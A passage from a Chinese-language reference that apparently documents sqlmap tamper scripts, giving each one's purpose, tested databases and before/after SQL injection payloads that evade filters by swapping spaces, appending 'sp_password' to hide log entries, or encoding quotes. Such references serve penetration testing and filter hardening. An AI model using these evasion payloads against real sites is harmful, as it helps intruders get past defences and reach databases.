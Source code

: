 在以下版本做过测试:

```
MySQL 5.1, SGOS
```

**11:space2randomblank.py**

作用：代替空格字符（“”）从一个随机的空白字符可选字符的有效集

示例：

```
'SELECT id FROM users'
'SELECT%0Did%0DFROM%0Ausers'
```

在以下版本做过测试:

All

**12:sp_password.py**

作用：追加`sp_password’`从 DBMS 日志的自动模糊处理的有效载荷的末尾

示例：

```
'1 AND 9227=9227-- '
'1 AND 9227=9227-- sp_password'
```

版本要求: `* MSSQL`

#### 针对过滤引号的

**1:apostrophemask.py**

作用：用`utf8`代替单引号

示例：

```
"1 AND '1'='1"
'1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'
```

在以下版本做过测试:

all

**2:apostrophenullencode.py**

作用：绕过过滤双引号，替换字符和双引号。

示例：

```
"1 AND '1'='1"
'1 AND %00%271%00%27=%00%271'
```

在以下版本做过测试:
